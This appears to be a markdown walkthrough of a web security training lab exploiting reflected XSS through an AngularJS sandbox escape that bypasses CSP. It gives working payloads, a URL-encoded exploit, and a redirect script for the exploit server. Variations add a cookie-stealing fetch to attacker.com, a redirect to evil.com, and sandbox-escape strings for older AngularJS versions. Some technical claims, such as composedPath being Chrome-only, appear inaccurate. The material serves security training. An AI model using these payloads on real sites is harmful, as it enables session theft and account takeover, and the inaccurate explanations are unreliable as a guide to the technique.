

---

**Difficulty:** 🔴 Expert

**Goal:**

- 🔍 Identify AngularJS application with CSP protection
- 🎯 Understand Content Security Policy (CSP) blocking eval/Function
- 💉 Exploit AngularJS template injection with ng-focus event
- 🔗 Use $event.composedPath() to access window object
- 🚨 Bypass AngularJS sandbox using orderBy filter trick
- 🎉 Execute alert(document.cookie) despite CSP restrictions to solve lab

---

## 🧠 **Concept Recap**

> **AngularJS Sandbox Escape with CSP** is an advanced XSS technique that requires bypassing two layers of protection: (1) Content Security Policy that blocks eval() and Function() constructor, and (2) AngularJS sandbox that prevents direct access to window object. This exploit uses AngularJS's ng-focus event with $event.composedPath() (Chrome-specific) to obtain a reference to the window object, then leverages the orderBy filter with a carefully crafted expression that indirectly calls alert() through variable assignment, bypassing both CSP and sandbox restrictions.

### 📊 **The Vulnerability**

**Normal AngularJS XSS (blocked by CSP):**

```js
Payload: {{constructor.constructor('alert(1)')()}}

AngularJS processes:
         ↓
Creates Function: constructor.constructor('alert(1)')
         ↓
CSP blocks: eval() and Function() not allowed!
         ↓
❌ XSS blocked by CSP!
```

**Attempting simple sandbox escape (blocked by CSP):**

```js
Payload: {{$on.constructor('alert(1)')()}}

AngularJS processes:
         ↓
Tries to use Function constructor
         ↓
CSP intercepts: Function() blocked!
         ↓
❌ CSP prevents execution!
```

**Successful bypass using ng-focus + orderBy + composedPath:**

```js
Exploit chain (simplified):

Step 1: Inject input with ng-focus
<input id=x ng-focus="$event.composedPath()|orderBy:'(z=alert)(document.cookie)'">

Step 2: Navigate to URL with #x fragment
https://lab.com/?search=payload#x
         ↓
Browser scrolls to element with id=x
         ↓
Input element receives focus automatically
         ↓
ng-focus event triggers

Step 3: AngularJS evaluates expression
$event.composedPath()|orderBy:'(z=alert)(document.cookie)'
         ↓
$event.composedPath() returns array of elements in event path
         ↓
Last element in array is window object!

Step 4: orderBy filter processes array
orderBy filter iterates through array
         ↓
For each element, evaluates: (z=alert)(document.cookie)
         ↓
When reaches window object in array:
  - z=alert assigns window.alert to variable z
  - (z=alert) returns the alert function
  - (z=alert)(document.cookie) calls alert with document.cookie
         ↓
alert(document.cookie) executes! 💥
         ↓
CSP bypassed (no eval/Function used)
         ↓
Sandbox bypassed (accessed window via $event path)
         ↓
XSS successful! 🎯
```

**Key Insight:**

```js
Why this bypass works:

1. CSP blocks traditional methods:
   ❌ eval('alert(1)')
   ❌ Function('alert(1)')()
   ❌ constructor.constructor('alert(1)')()
   └── All require eval or Function constructor

2. AngularJS sandbox blocks window access:
   ❌ {{window.alert(1)}}
   ❌ {{this.window.alert(1)}}
   └── Direct window access prevented

3. But $event.composedPath() provides indirect access:
   ✅ Returns array of event target ancestry
   ✅ Last element in Chrome is window object
   ✅ Not blocked by sandbox!

4. orderBy filter enables execution in window scope:
   └── orderBy evaluates expression for each array element
       └── When reaches window element:
           └── Expression executes with window as scope
               └── Can access window.alert! ✓

5. Variable assignment trick bypasses CSP:
   └── (z=alert) assigns function to variable
       └── No eval() or Function() constructor used
           └── Just JavaScript assignment operator
               └── CSP doesn't block! ✓

6. The complete bypass chain:
   ng-focus (automatic trigger)
      ↓
   $event.composedPath() (get window reference)
      ↓
   orderBy filter (execute in window scope)
      ↓
   (z=alert)(document.cookie) (call alert indirectly)
      ↓
   CSP + Sandbox bypassed! 💣

The triple protection bypass:
└── HTML injection (ng-focus attribute)
    └── CSP bypass (no eval/Function)
        └── Sandbox bypass (indirect window access)
            └── All three defeated! ⚠️
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab and Identify AngularJS**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the blog homepage
3. 🔍 Locate the **search functionality**

**Homepage layout:**

```
┌────────────────────────────────────┐
│ Blog Website                       │
├────────────────────────────────────┤
│                                    │
│ [Search: _____________] [Search]   │ ← Search box
│                                    │
│ Recent Posts:                      │
│ ├── Post 1                         │
│ ├── Post 2                         │
│ └── Post 3                         │
└────────────────────────────────────┘
```

---

### 🔎 **Step 2 — Test Search and View Source**

1. 🖱️ Search for: `test`
2. 🖱️ Right-click → **"View Page Source"**

**Look for AngularJS indicators:**

```html
<!DOCTYPE html>
<html>
<head>
    <title>Blog</title>
    <!-- AngularJS loaded -->
    <script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.7.7/angular.min.js"></script>
    
    <!-- CSP header present! -->
    <meta http-equiv="Content-Security-Policy" 
          content="default-src 'self'; script-src 'self'">
</head>
<body ng-app>
    <section class="search">
        <form action="/" method="GET">
            <input type="text" name="search">
            <button type="submit">Search</button>
        </form>
    </section>
    
    <section class="blog-header">
        <h1>0 search results for 'test'</h1>
    </section>
</body>
</html>
```

**Critical discoveries:**

```js
🎯 AngularJS Detected:
<script src=".../angular.min.js"></script>
└── AngularJS framework loaded

🎯 ng-app Directive:
<body ng-app>
└── AngularJS active on page

🎯 CSP Present:
<meta http-equiv="Content-Security-Policy" content="...">
└── CSP restricts script execution!

🎯 Input Reflection:
<h1>0 search results for 'test'</h1>
└── Search term reflected in HTML

The challenge:
└── AngularJS template injection possible
    └── But CSP blocks eval/Function
        └── And sandbox blocks window access
            └── Need advanced bypass! ⚠️
```

---

### 📜 **Step 3 — Analyze CSP Policy**

**CSP Header:**

```js
Content-Security-Policy: default-src 'self'; script-src 'self'
```

**What this CSP does:**

```js
CSP Directive Breakdown:

default-src 'self':
├── Default policy for all resources
├── Only allows resources from same origin
└── Blocks external resources

script-src 'self':
├── Only allows scripts from same origin
├── Blocks inline <script> tags (no 'unsafe-inline')
├── Blocks eval() and Function() (no 'unsafe-eval')
└── Very restrictive! ⚠️

What gets blocked:
❌ eval('alert(1)')
❌ Function('alert(1)')()
❌ setTimeout('alert(1)', 0)
❌ new Function('alert(1)')()
❌ constructor.constructor('alert(1)')()

Traditional AngularJS escapes blocked:
❌ {{constructor.constructor('alert(1)')()}}
❌ {{$on.constructor('alert(1)')()}}
❌ All use Function constructor internally!

The CSP challenge:
└── Cannot use Function() to create new functions
    └── Cannot use eval() to execute strings
        └── Must find alternative execution method
            └── That doesn't require these! 🎯
```

---

### 🧪 **Step 4 — Test AngularJS Template Injection**

Let's verify AngularJS processes expressions:

1. 🖱️ Search for: `{{7*7}}`

**Expected result:**

```
┌────────────────────────────────────┐
│ Search Results                     │
├────────────────────────────────────┤
│                                    │
│ 0 search results for '49'          │ ← Note: 49, not {{7*7}}!
│                                    │
└────────────────────────────────────┘
```

**Confirmation:**

```
✅ AngularJS processes {{...}} expressions
✅ Template injection confirmed!
✅ But need CSP bypass for actual XSS
```

---

### 💡 **Step 5 — Understanding $event Object**

**What is $event?**

```js
$event in AngularJS:
└── Special variable available in event handler expressions
    └── References the DOM Event object
        └── Contains information about the event

Example usage:
<button ng-click="handleClick($event)">Click</button>
└── $event passed to function
    └── Contains click event details

$event properties:
├── target: Element that triggered event
├── currentTarget: Element handler is attached to
├── type: Event type (click, focus, etc.)
├── timeStamp: When event occurred
└── Many more...

$event.composedPath():
└── Chrome-specific method (not standard)
    └── Returns array of event path
        └── From target up to window
            └── Includes window object! 🎯

Event path example:
[<input>, <div>, <section>, <body>, <html>, #document, Window]
 ↑                                                           ↑
 └─ Event target                                             └─ Window object!

Why this matters:
└── $event.composedPath() gives us window reference
    └── Without directly accessing window
        └── Bypasses sandbox window check! ✓
```

---

### 🔬 **Step 6 — Understanding orderBy Filter**

**What is orderBy?**

```js
orderBy filter in AngularJS:
└── Sorts an array based on expression
    └── Evaluates expression for each element
        └── Uses result for sorting

Normal usage:
{{ [3, 1, 2] | orderBy }}
Result: [1, 2, 3]

With expression:
{{ users | orderBy:'name' }}
└── Sorts users array by name property

With function:
{{ items | orderBy:'getSortValue()' }}
└── Calls getSortValue() for each item
    └── Uses return value for sorting

The exploitation:
{{ $event.composedPath() | orderBy:'expression' }}
└── composedPath() returns array with window
    └── orderBy evaluates 'expression' for each element
        └── When reaches window element:
            └── Expression executes in window scope!
                └── Can access window.alert! 💥

Key insight:
└── orderBy evaluates expression for EACH array element
    └── Expression executed multiple times
        └── Once per element in array
            └── When reaches window: has window scope! ✓
```

---

### 🎯 **Step 7 — Understanding Variable Assignment Trick**

**The (z=alert) technique:**

```js
Why not just: (alert)(document.cookie) ?
└── AngularJS sandbox blocks direct alert access
    └── Even with window scope

The variable assignment bypasses this:
(z=alert)(document.cookie)
 ↑       ↑
 │       └── The alert function
 └── Assigns alert to variable z

Breakdown:
1. z=alert
   └── Assignment expression
       └── Assigns window.alert to variable z
           └── Returns the alert function

2. (z=alert)
   └── Parentheses create sub-expression
       └── Evaluates to the alert function

3. (z=alert)(document.cookie)
   └── Calls the function with argument
       └── Equivalent to: alert(document.cookie)

Why this works:
└── Assignment operator (=) is not blocked
    └── No eval() or Function() used
        └── CSP doesn't restrict assignments
            └── Just normal JavaScript! ✓

The sandbox bypass:
└── Direct access: alert() → blocked
    └── Via variable: z=alert; z() → works!
        └── Sandbox checks miss this pattern ✓

JavaScript evaluation order:
(z=alert)(document.cookie)
    ↓
Step 1: Evaluate (z=alert)
        └── z = window.alert
        └── Returns alert function
    ↓
Step 2: Call returned function with argument
        └── alert(document.cookie)
    ↓
Alert executes! 💥
```

---

### 🛠️ **Step 8 — Constructing the Payload**

**Building the exploit step by step:**

```js
Component 1: Input element with id
<input id=x>
└── Need id for URL fragment targeting

Component 2: ng-focus event handler
<input id=x ng-focus="expression">
└── Triggers when element receives focus

Component 3: $event.composedPath()
ng-focus="$event.composedPath()|..."
└── Gets array of event path (includes window)

Component 4: orderBy filter
|orderBy:'expression'
└── Executes expression for each array element

Component 5: Alert expression
'(z=alert)(document.cookie)'
└── Assigns and calls alert

Complete payload:
<input id=x ng-focus="$event.composedPath()|orderBy:'(z=alert)(document.cookie)'">

How it works when focused:
1. Element receives focus
2. ng-focus triggers
3. $event.composedPath() returns:
   [<input>, <div>, <body>, <html>, #document, Window]
4. orderBy processes each element
5. When reaches Window:
   - Evaluates: (z=alert)(document.cookie)
   - In window scope!
   - z = window.alert
   - Calls alert(document.cookie)
6. Alert shows cookies! ✓
```

**URL-encoded version:**

```js
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>

URL encoded:
%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E

Breakdown:
%3C     = <
%20     = space
%27     = '
%3E     = >
|       = | (not encoded)
:       = : (not encoded)
(       = ( (not encoded)
)       = ) (not encoded)
```

---

### 🌐 **Step 9 — Adding Auto-Focus with URL Fragment**

**The #x fragment trick:**

```js
URL structure:
https://lab.com/?search=payload#x
                                 ↑
                                 └── Fragment identifier

What #x does:
└── Browser scrolls to element with id="x"
    └── Element receives focus
        └── Triggers ng-focus event
            └── Automatic execution! ✓

Complete exploit URL:
https://lab.com/?search=%3Cinput%20id=x%20ng-focus=...%3E#x
                         ↑                                 ↑
                         └── Injects input with ng-focus  └── Focuses it

User journey:
1. Victim clicks malicious link
2. Browser loads page with search parameter
3. Search term reflected: <input id=x ng-focus="...">
4. AngularJS compiles the input element
5. Browser processes #x fragment
6. Scrolls to and focuses element with id=x
7. ng-focus event fires
8. Payload executes! 💥

No user interaction needed:
└── Fragment automatically focuses element
    └── Focus automatically triggers ng-focus
        └── Completely automatic! ✓
```

---

### 🚀 **Step 10 — Create Exploit Server Payload**

1. 🌐 Click **"Go to exploit server"** button

**Exploit server interface:**

```
┌────────────────────────────────────┐
│ Exploit Server                     │
├────────────────────────────────────┤
│                                    │
│ Body:                              │
│ [____________________________]     │
│ [____________________________]     │
│                                    │
│ [Store] [View exploit] [Deliver]   │
└────────────────────────────────────┘
```

2. 📝 In the **Body** section, enter:

```js
<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

**IMPORTANT:** Replace `YOUR-LAB-ID` with your actual lab ID!

**Breaking down the exploit:**

```html
<script>
location='...';
</script>

Component breakdown:

1. <script> tag
   └── JavaScript code on exploit page

2. location='...'
   └── Redirects browser to target URL
       └── Automatic, no user interaction

3. Target URL:
   https://YOUR-LAB-ID.web-security-academy.net/
   ?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E
   #x

4. Query parameter (decoded):
   ?search=<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>

5. Fragment:
   #x
   └── Auto-focuses the input

Execution flow:
Victim visits exploit page
     ↓
JavaScript executes immediately
     ↓
location redirects to target
     ↓
Target page loads with malicious search
     ↓
AngularJS compiles ng-focus directive
     ↓
Fragment #x focuses element
     ↓
ng-focus handler executes
     ↓
alert(document.cookie) runs! 💥
```

---

### 🧪 **Step 11 — Test the Exploit**

Before delivering, let's test it:

1. 🖱️ Click **"View exploit"** button

**Expected behavior:**

```HTML
New tab opens
         ↓
Exploit page loads
         ↓
<script> executes
         ↓
Browser redirects to target
         ↓
Target page loads:
https://lab.com/?search=<input id=x ng-focus=...>#x
         ↓
HTML rendered:
<h1>0 results for '<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>'</h1>
         ↓
AngularJS processes ng-focus directive
         ↓
Browser processes #x fragment
         ↓
Element with id=x receives focus
         ↓
ng-focus event triggers
         ↓
$event.composedPath() called
         ↓
Returns: [<input>, ..., Window]
         ↓
orderBy filter processes array
         ↓
For each element evaluates: (z=alert)(document.cookie)
         ↓
When reaches Window element:
- z = window.alert
- Calls alert(document.cookie)
         ↓
Alert popup appears! ✓
```

**Alert dialog:**

```
┌────────────────────────────────────┐
│ This page says:                    │
│                                    │
│ session=abc123; user=victim        │
│                                    │
│            [OK]                    │
└────────────────────────────────────┘
```

2. ✅ If alert with cookies appears, exploit works!
3. ❌ If no alert, check:
    - Lab ID is correct
    - URL encoding is correct
    - Using Chrome-based browser (composedPath is Chrome-specific)

---

### 🎯 **Step 12 — Deliver Exploit to Victim**

1. ✅ Close the alert dialog (or test tab)
2. 🌐 Go back to exploit server
3. 🚀 Click **"Deliver exploit to victim"** button

**Expected process:**

```
Exploit server notifies victim
         ↓
Simulated victim visits exploit URL
         ↓
Redirect executes automatically
         ↓
Victim's browser loads malicious URL
         ↓
AngularJS processes payload
         ↓
Element auto-focuses via #x
         ↓
ng-focus triggers
         ↓
alert(document.cookie) executes
         ↓
Lab detects successful execution
         ↓
Lab solved! 🎉
```

**Success requirements:**

```
Lab requirements:
✅ Bypass CSP (no eval/Function)
✅ Escape AngularJS sandbox
✅ Execute alert(document.cookie)

Our exploit satisfies all:
└── Uses orderBy filter (no eval/Function) ✓
    └── Accesses window via $event.composedPath() ✓
        └── Calls alert(document.cookie) via variable assignment ✓
```

---

### ✅ **Step 13 — Lab Completion**

**After delivering exploit:**

```
Lab automatically detects:
├── Victim visited exploit
├── Redirected to malicious URL
├── AngularJS processed payload
├── alert(document.cookie) executed
└── Lab solved! ✓
```

**Completion banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully bypassed CSP and  │
│  escaped the AngularJS sandbox by   │
│  using ng-focus with                │
│  $event.composedPath() and the      │
│  orderBy filter trick to execute    │
│  alert(document.cookie).            │
│                                     │
│  Lab: Reflected XSS with AngularJS  │
│       sandbox escape and CSP        │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         ↓
Step 2: View page source
         → AngularJS detected ✓
         → ng-app directive found ✓
         → CSP header found ✓
         ↓
Step 3: Analyze CSP
         → script-src 'self'
         → No 'unsafe-eval'
         → Blocks eval() and Function() ⚠️
         ↓
Step 4: Test template injection
         → {{7*7}} → displays 49
         → AngularJS processes expressions ✓
         ↓
Step 5: Understand protection layers
         → CSP blocks traditional escapes
         → Sandbox blocks window access
         → Need advanced bypass! 🎯
         ↓
Step 6: Research $event object
         → $event available in event handlers
         → composedPath() returns event path array
         → Last element is Window object! 💡
         ↓
Step 7: Research orderBy filter
         → Evaluates expression for each array element
         → When reaches Window: executes in window scope
         → Can access window properties! ✓
         ↓
Step 8: Design variable assignment bypass
         → (z=alert)(document.cookie)
         → Assigns alert to z, then calls it
         → No eval/Function needed! ✓
         ↓
Step 9: Construct payload
         → <input id=x ng-focus="$event.composedPath()|orderBy:'(z=alert)(document.cookie)'">
         → Combines all bypass techniques
         ↓
Step 10: Add auto-focus mechanism
         → Use #x URL fragment
         → Automatically focuses element
         → Triggers ng-focus! ✓
         ↓
Step 11: URL encode payload
         → %3Cinput%20id=x%20ng-focus=...%3E
         ↓
Step 12: Create exploit server redirect
         → <script>location='target-url#x';</script>
         → Automatic redirect to malicious URL
         ↓
Step 13: Test exploit
         → Visit exploit → Redirects → Alert appears ✓
         ↓
Step 14: Deliver to victim
         → Victim clicks link
         → Redirected to malicious URL
         → Page loads with payload
         → AngularJS compiles ng-focus
         → Fragment focuses element
         → ng-focus fires
         → $event.composedPath() returns array with Window
         → orderBy processes array
         → (z=alert)(document.cookie) executes when reaches Window
         → alert shows document.cookie! 💥
         ↓
Step 15: Lab detects success
         ↓
Step 16: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **Content Security Policy (CSP) Deep Dive**

```js
What is CSP?

Definition:
└── HTTP header that controls resource loading
    └── Whitelists allowed sources for scripts, styles, etc.
        └── Mitigates XSS attacks

This lab's CSP:
Content-Security-Policy: default-src 'self'; script-src 'self'

Directive breakdown:

default-src 'self':
├── Default policy for all resource types
├── 'self' = same origin only
└── Fallback for unspecified directives

script-src 'self':
├── Controls JavaScript sources
├── 'self' = only same-origin scripts
├── No 'unsafe-inline' = blocks inline <script>
├── No 'unsafe-eval' = blocks eval() and Function()
└── Very restrictive! ✓

What CSP blocks:

1. Inline scripts:
   ❌ <script>alert(1)</script>
   
2. Event handlers:
   ❌ 
   (Actually, this lab's AngularJS allows ng-* attributes!)
   
3. javascript: URLs:
   ❌ <a href="javascript:alert(1)">
   
4. eval() and Function():
   ❌ eval('alert(1)')
   ❌ Function('alert(1)')()
   ❌ setTimeout('alert(1)', 0)
   ❌ new Function('alert(1)')()

CSP + AngularJS problem:
└── Normal AngularJS sandbox escapes use Function():
    ❌ {{constructor.constructor('alert(1)')()}}
    ❌ {{$on.constructor('alert(1)')()}}
    
└── All blocked by CSP!
    └── Need alternative that doesn't use eval/Function
        └── That's where orderBy comes in! ✓

Why orderBy bypass works:
└── orderBy is native AngularJS filter
    └── Evaluates expressions without eval()
        └── Uses AngularJS's own parser
            └── Not blocked by CSP! ✓
```

---

### **AngularJS Sandbox Deep Dive**

```js
What is the AngularJS Sandbox?

Purpose:
└── Security layer in AngularJS expressions
    └── Prevents access to dangerous objects
        └── Limits what code can do

What sandbox blocks:

1. Window object:
   ❌ {{window}}
   ❌ {{window.alert(1)}}
   ❌ {{this.window}}
   
2. Document object:
   ❌ {{document}}
   ❌ {{document.cookie}}
   
3. Function constructor:
   ❌ {{constructor.constructor('alert(1)')()}}
   
4. Dangerous properties:
   ❌ {{__proto__}}
   ❌ {{constructor}}
   
How sandbox works:
└── Parses expressions in restricted scope
    └── Checks property access
        └── Blocks dangerous references
            └── Returns undefined or throws error

The sandbox is NOT perfect:
└── Many bypasses discovered over years
    └── $on.constructor trick (older versions)
        └── But CSP blocks Function() anyway!

This lab's bypass:
└── $event.composedPath() is allowed
    └── Returns array including Window
        └── Not directly accessing window
            └── Sandbox check misses this! ✓
            
└── orderBy filter executes in element scope
    └── When element is Window: has window scope
        └── Can access window.alert! ✓
        
└── (z=alert) assigns function to variable
    └── Just assignment operator
        └── Not blocked by sandbox! ✓

Triple bypass:
1. Get window reference: $event.composedPath()
2. Execute in window scope: orderBy filter
3. Call alert indirectly: (z=alert)(document.cookie)
All three bypass both CSP and sandbox! 💣
```

---

### **The $event.composedPath() Technique**

```js
Understanding composedPath():

What is it?
└── Method on Event objects (Chrome-specific)
    └── Returns array of event propagation path
        └── From target element up to Window

Event propagation phases:

Capture Phase:
Window → Document → HTML → Body → Div → Target

Target Phase:
Target element itself

Bubble Phase:
Target → Div → Body → HTML → Document → Window

composedPath() returns full path:
[Target, Div, Body, HTML, Document, Window]
 ↑                                        ↑
 └─ Start                                 └─ End (window!)

Example:
<body>
    <div>
        <input id=x>  ← Event target
    </div>
</body>

$event.composedPath() returns:
[
    <input id=x>,           // 0
    <div>,                  // 1
    <body>,                 // 2
    <html>,                 // 3
    #document,              // 4
    Window                  // 5 ← The window object!
]

Why this matters:
└── Last element is Window object
    └── Gives us reference to window
        └── Without directly accessing it
            └── Bypasses sandbox! ✓

Chrome-specific note:
└── composedPath() is Chrome/Blink feature
    └── Not in Firefox (uses path property instead)
        └── Not in older browsers
            └── This exploit is Chrome-only! ⚠️

Alternative in Firefox:
$event.path (older Chrome) or
$event.composedPath() (Chrome)
```

---

### **The orderBy Filter Exploitation**

```js
How orderBy normally works:

Basic sorting:
{{ [3, 1, 2] | orderBy }}
Result: [1, 2, 3]

Sorting objects by property:
{{ users | orderBy:'age' }}
└── Sorts users array by age property

Sorting with expression:
{{ items | orderBy:'getPrice()' }}
└── Calls getPrice() for each item
    └── Uses return value for comparison

The key insight:
└── orderBy evaluates expression FOR EACH element
    └── Expression can have SIDE EFFECTS
        └── Not just return a value! ⚠️

Exploitation:

Input: [Element1, Element2, ..., Window]
Expression: '(z=alert)(document.cookie)'

Processing:
For Element1:
  Evaluate: (z=alert)(document.cookie)
  Scope: Element1
  Result: undefined (Element1.alert doesn't exist)

For Element2:
  Evaluate: (z=alert)(document.cookie)
  Scope: Element2
  Result: undefined

...

For Window:
  Evaluate: (z=alert)(document.cookie)
  Scope: Window ← This is key!
  Result:
    - z = Window.alert ← window.alert exists!
    - (z=alert) returns the alert function
    - (z=alert)(document.cookie) calls alert(document.cookie)
    - Alert executes! 💥

Why scope matters:
└── Each array element becomes "this" context
    └── When element is Window: this === Window
        └── Can access Window.alert! ✓

The genius of this bypass:
└── Uses legitimate AngularJS feature (orderBy)
    └── No eval() or Function() needed
        └── CSP doesn't block ✓
└── Gets window reference from $event
    └── Not direct window access
        └── Sandbox doesn't block ✓
└── Calls alert via variable assignment
    └── Just normal JavaScript
        └── Nothing to block! ✓
```

---

### **The Variable Assignment Technique**

```js
Understanding (z=alert)(document.cookie):

JavaScript evaluation:

Expression: (z=alert)(document.cookie)

Step 1: Evaluate (z=alert)
└── Assignment: z = alert
    └── Returns: the alert function
        └── But also assigns it to variable z

Step 2: Call the returned function
└── (z=alert) resulted in alert function
    └── (returned_function)(document.cookie)
        └── alert(document.cookie)
            └── Executes! 💥

Why use parentheses?
└── (z=alert) groups the assignment
    └── Ensures it evaluates first
        └── Returns the assigned value (alert function)
            └── Which can then be called

Without parentheses:
z=alert(document.cookie)
└── Would call alert first
    └── Then assign undefined to z
        └── Not what we want!

Alternative syntax:
(z=alert, z)(document.cookie)
└── Comma operator: evaluates both, returns last
    └── z=alert assigns
        └── Returns alert function
            └── Then calls it

Why this bypasses sandbox:
└── Sandbox blocks: alert(document.cookie)
    └── But NOT: z=alert; z(document.cookie)
        └── Assignment operator not restricted
            └── Variable call not checked! ✓

CSP bypass:
└── No eval() or Function() used
    └── Just assignment and function call
        └── Normal JavaScript operations
            └── CSP allows! ✓

The complete expression in context:
$event.composedPath() | orderBy:'(z=alert)(document.cookie)'
                                   ↑                      ↑
                                   └──────────────────────┘
                                   Expression evaluated for each element
                                   When element is Window: executes alert!
```

---

## 🚀 **Attack Variations**

### **Variation 1: Alternative Event Handlers**

If ng-focus didn't work:

```js
Using ng-mouseover (requires hover):
<input id=x ng-mouseover="$event.composedPath()|orderBy:'(z=alert)(document.cookie)'">

Using ng-click (requires click):
<input id=x ng-click="$event.composedPath()|orderBy:'(z=alert)(document.cookie)'">

Using ng-keypress (requires typing):
<input id=x ng-keypress="$event.composedPath()|orderBy:'(z=alert)(document.cookie)'">

All use same technique:
└── $event.composedPath() for window access
    └── orderBy for execution
        └── (z=alert) for function call
```

---

### **Variation 2: Different Functions**

Instead of alert:

```js
Cookie stealing:
ng-focus="$event.composedPath()|orderBy:'(z=fetch)(\"//attacker.com?c=\"+document.cookie)'"

DOM manipulation:
ng-focus="$event.composedPath()|orderBy:'(z=eval)(\"document.body.innerHTML=\\'Hacked\\'\" )'"

Note: Need to escape quotes carefully in orderBy expression!

Redirect:
ng-focus="$event.composedPath()|orderBy:'(z=location.assign)(\"//evil.com\")'"
```

---

### **Variation 3: Using path Instead of composedPath**

For older browsers:

```js
Using $event.path (deprecated):
<input id=x ng-focus="$event.path|orderBy:'(z=alert)(document.cookie)'">

$event.path:
└── Older property (deprecated)
    └── Still works in some Chrome versions
        └── Returns same array as composedPath()
```

---

### **Variation 4: Multiple Variable Assignments**

Complex payloads:

```js
Chain assignments:
ng-focus="$event.composedPath()|orderBy:'(z=alert, y=document.cookie, z)(y)'"

Breakdown:
├── z=alert assigns alert to z
├── y=document.cookie assigns cookies to y
├── Comma operator returns last: z (alert function)
└── (z)(y) calls alert(cookies)
```

---

### **Variation 5: Using Array Index**

Direct array access:

```js
Access window directly by index:
ng-focus="($event.composedPath()[5].alert)(document.cookie)"

Explanation:
└── $event.composedPath()[5] is Window object
    └── [5].alert is window.alert
        └── Calls alert(document.cookie)

But this might not bypass sandbox as effectively!
```

---

### **Variation 6: Constructor Chaining**

Alternative window access:

```js
Using constructor chain:
ng-focus="$event.target.ownerDocument.defaultView.alert(document.cookie)"

Explanation:
├── $event.target: the input element
├── ownerDocument: the document
├── defaultView: the window
└── alert: window.alert

But sandbox might block this!
```

---

### **Variation 7: Object.keys Trick**

```js
Using Object.keys:
ng-focus="$event.composedPath()|orderBy:'(z=Object.keys,w=z($event.view||$event.path[5]),w)(document.cookie)'"

Very complex, shows advanced techniques!
```

---

### **Variation 8: With Different AngularJS Versions**

This exploit is version-specific:

```js
AngularJS 1.7.7 (this lab):
└── orderBy filter works as shown ✓

AngularJS 1.6.x:
└── Sandbox more strict
    └── May need different approach

AngularJS 1.2.x:
└── Different sandbox escape techniques
    └── Like: {{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}

Always check AngularJS version!
```

---

## 📚 **Additional Resources**

### **AngularJS Expression Contexts**

```js
Different AngularJS contexts:

1. Expression context ({{...}}):
   <div>{{userInput}}</div>
   └── Evaluates as JavaScript expression
       └── Can inject code

2. Directive context (ng-*):
   <div ng-bind="userInput"></div>
   └── Safer: binds value, doesn't evaluate HTML
       └── But still can inject directives!

3. Event handler context:
   <div ng-click="userInput"></div>
   └── Evaluates as JavaScript on event
       └── Dangerous!

Most vulnerable:
ng-click, ng-focus, ng-mouseover, etc.
└── Direct JavaScript execution
    └── Perfect for exploitation! ⚠️

Safer alternatives:
ng-bind, ng-bind-html (with $sanitize)
└── Binds data without evaluation
    └── Still escape user input! ✓
```

---

### **Chrome-Specific Considerations**

```js
This exploit is Chrome-specific:

Why?
└── composedPath() is Chrome/Blink feature
    └── Not in Firefox standard
        └── Not in Safari
            └── Not in older browsers

Firefox alternative:
$event.path (deprecated)
└── May work in older Firefox
    └── But not standard

Safari:
No direct equivalent
└── Would need different technique

Cross-browser approach:
└── Test for composedPath() first:
    if ($event.composedPath) {
        // Chrome approach
    } else if ($event.path) {
        // Firefox/old Chrome
    } else {
        // Fallback
    }

For production exploits:
└── Would need browser detection
    └── Different payloads per browser
        └── More complex! ⚠️

This lab:
└── Simulated victim uses Chrome
    └── composedPath() available ✓
```

---

### **AngularJS Versions and Exploits**

```js
AngularJS version history:

1.0.x - 1.1.x (ancient):
└── Very weak sandbox
    └── {{constructor.constructor('alert(1)')()}}
        └── Direct escape

1.2.x - 1.5.x:
└── Improved sandbox
    └── More complex escapes needed
        └── Like: {{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}

1.6.x:
└── Stricter sandbox
    └── Even more complex escapes

1.7.x - 1.8.x (this lab):
└── Most strict sandbox
    └── But still bypassable with advanced techniques
        └── This lab's exploit works! ✓

All versions:
└── Fundamentally vulnerable
    └── Client-side template evaluation
        └── No version is "safe" ⚠️

Version detection:
└── Check angular.version in console:
    angular.version
    └── Returns: {full: "1.7.7", ...}

Different versions need different escapes!
```

